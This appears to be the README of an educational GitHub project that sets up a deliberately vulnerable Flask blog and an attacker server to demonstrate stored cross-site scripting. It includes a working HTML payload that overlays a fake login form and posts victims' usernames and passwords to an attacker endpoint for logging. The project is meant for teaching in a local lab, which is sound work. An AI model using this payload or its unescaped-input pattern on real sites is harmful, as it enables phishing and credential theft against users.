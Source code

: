 # Cross-Site Scripting (XSS) Demonstration Project

## Overview

This project demonstrates the exploitation of a **Cross-Site Scripting (XSS)** vulnerability in a web application using **Flask**. It includes both a vulnerable victim application and an attacker server to simulate an XSS attack, including credential theft through a fake login page.

## Project Structure

``````bash
project-directory/
│
├── attacker_server/
│   ├── attacker_server.py    # Flask app for the attacker server
│   ├── Dockerfile            # Dockerfile for attacker server
│
├── victim_app/
│   ├── app.py                # Flask app for the victim application
│   ├── Dockerfile            # Dockerfile for victim application
│   ├── requirements.txt      # Python dependencies for victim app
│   ├── static/               # Static files (CSS, JS)
│   ├── templates/            # HTML templates
│
├── docker-compose.yml        # Docker Compose file to manage both containers
``````

## Technologies Used
Flask: A lightweight Python web framework for the victim and attacker server applications.
SQLite: A lightweight database used in the victim application.
Docker: Containerizes the victim and attacker applications for easy setup and isolation.
Docker Compose: Used to orchestrate both services.
HTML/CSS: Used for front-end templating and styling.
Setup Instructions
Prerequisites
Docker: Install Docker and Docker Compose on your machine.
Git: Make sure Git is installed to clone the repository.
Steps to Run the Project
Clone the repository:

```bash
git clone https://github.com/naibwedi/Cross-Site-Scripting.git
cd Cross-Site-Scripting
```
Build and run the Docker containers:

```bash
docker-compose up
```
## Access the applications:

Victim Application: Open a browser and go to http://127.0.0.1:5000 to access the vulnerable victim app.
Attacker Server: The attacker server will be running at http://127.0.0.1:5001 where stolen credentials will be logged.
Stop the containers: To stop the running containers, press CTRL+C in the terminal or run:

```bash
docker-compose down
```

## Features
### Victim Application
A basic blog application where users can add posts and comments.
Vulnerability: The application does not escape user input in the blog post and comment sections, making it vulnerable to XSS attacks.

### Attacker Server
A Flask server designed to capture credentials via a fake login form.
Displays and logs stolen credentials from the victim’s browser to simulate credential theft.
Demonstration of XSS Vulnerability
Injecting Malicious Script: An attacker can submit a malicious comment with a script payload that injects a fake login form when viewed by another user.

Example payload:

```html
<div style="background-color: rgba(0, 0, 0, 0.95); position: fixed; top: 0; left: 0; width: 100%; height: 100%; z-index: 9999; text-align: center; color: white; padding-top: 100px;">
    <h1>Please Log In Again</h1>
    <form method="POST" action="http://127.0.0.1:5001/fake-login">
        <input type="text" name="username" placeholder="Enter username">
        <input type="password" name="password" placeholder="Enter password">
        <button type="submit">Log In</button>
    </form>
</div>
```
Redirect to Attacker Server: This payload displays a fake login form, and when the user submits their credentials, they are sent to the attacker’s server (http://127.0.0.1:5001/fake-login).

Credential Theft: The attacker server captures the submitted credentials and logs them to the terminal.
